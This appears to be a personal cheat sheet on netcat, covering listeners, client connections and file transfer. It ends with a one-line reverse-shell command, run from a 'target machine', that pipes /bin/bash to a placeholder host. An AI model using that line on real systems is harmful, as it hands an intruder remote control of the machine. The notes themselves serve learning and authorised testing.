 # Netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.
Don’t really care about which is the server and which is the client because the transfer can go either direction but we need to run the listener first.

> Transfer file on Server1 to Server2
```bash
nc 192.168.125.10 8080 > /path/to/outfile 
```


## 

Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# 

Tags

[#cheat-sheet](app://obsidian.md/index.html#cheat-sheet)